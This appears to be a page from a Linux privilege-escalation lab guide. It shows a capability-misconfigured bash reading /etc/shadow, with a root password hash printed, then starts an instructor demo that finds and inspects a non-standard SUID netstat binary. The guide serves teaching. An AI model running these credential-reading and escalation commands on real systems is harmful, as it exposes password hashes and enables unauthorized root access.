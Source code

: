 cat < /etc/shadow

```
root:$6$gFPbZKYI$RuR7I0Adpo9fZXWJp2RVpndczzLmKNB9hnobfo5VPQLta87kJxjq0aqVpi6x1sy4dpY0j
5eMPI5CvdrbmCE1t1:18277:0:99999:7:::
```

```
daemon:*:18248:0:99999:7:::
bin:*:18248:0:99999:7:::
sys:*:18248:0:99999:7:::
-- Output Omitted --
```
Why does this command work when the previous commmand failed? The only difference between
the previous command that failed and the current one that succeeded is the redirection "<". Bash
handles redirection and cat accepts the redirected input provided by bash and since bash is
running with the capabilty to bypass permission checks and read all files, it can read "/etc/shadow"
even when running as a non-root user. The "cat" command happily accepts the redirected input
and displays it to standard output.

**Demonstrate: Vulnerable SUID/SGID executable**

1. Log into the instructor linux VM using root and the password you provided in the YAML input.
2. su demo2 # su into the user demo
3. sudo -l # same as root password. should get: _"Sorry, user demo2 may not run sudo on localhost."_
4. find / -perm /4000 -type f 2>/dev/null -exec ls -l {} \; #look for setuid executables
5. Take note of the setuid file /bin/netstat_natpu as it stands out to the trained eye as a non-system
    SUID program.

```
-rwsr-xr-x 1 root root 845088 Nov 5 17:30 /bin/netstat_natpu
```
6. Perform some static analysis of the executable.

```
file /bin/netstat_natpu #verify that it’s an executable
```
```
/bin/netstat_natpu: setuid ELF 64-bit LSB executable, x86-64, version 1
(GNU/Linux), statically linked, for GNU/Linux 3.2.0,
BuildID[sha1]=fbb80959eba1d2773de8839995ede67c0a965a47, not stripped
```
```
/bin/netstat_natpu #execute the command and take note of the privileged output of the "-p"
flag in netstat
```
```
Active Internet connections (servers and established)
PID/Program name
2657/systemd-resolv
1263/sshd
22960/sshd: root@pt
1263/sshd
2657/systemd-resolv
2634/systemd-networ
```
```
netstat -antpu #compare the output to normal netstat
```

